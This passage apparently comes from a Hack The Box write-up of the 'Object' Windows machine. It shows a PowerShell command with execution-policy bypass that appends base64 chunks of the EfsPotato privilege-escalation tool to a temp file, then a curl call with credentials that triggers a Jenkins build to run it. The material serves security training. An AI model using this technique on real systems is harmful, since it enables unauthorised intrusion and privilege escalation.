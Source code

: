 
With the `%TEMP%\resource.temp` directory created successfully, we can start the process of executing each individual command to get the base64 contents of EfsPotato.b64 over to the windows host.

Our first command will be:\
`cmd.exe /c powershell -NoProfile -ExecutionPolicy Bypass -Command "Add-Content -Path %TEMP%\resource.temp\efspot.b64 -Value dXNpbmcg<SNIP>c3RhdGlj -Encoding ASCII"`

![light mode only](/assets/img/posts/htb/machines/windows/hard/object/object_21.png){: .light .w-100 .shadow .rounded-10 w='1212' h='668' }
![dark mode only](/assets/img/posts/htb/machines/windows/hard/object/object_21.png){: .dark .w-100 .shadow .rounded-10 w='1212' h='668' }


We can now trigger the job again to build with the new command.

```zsh
0x3ds@kali $ curl -X POST -L --user shadows:113cd8cf72a195b55d66f037ad1d0a7331 \
    'http://object.htb:8080/job/shadownedya/build?token=ShadowsAuthToken'

```

We can now refresh our project page and access the Console Output of our newly built job to see that it was successful.

![light mode only](/assets/img/posts/htb/machines/windows/hard/object/object_22.png){: .light .w-100 .shadow .rounded-10 w='1212' h='668' }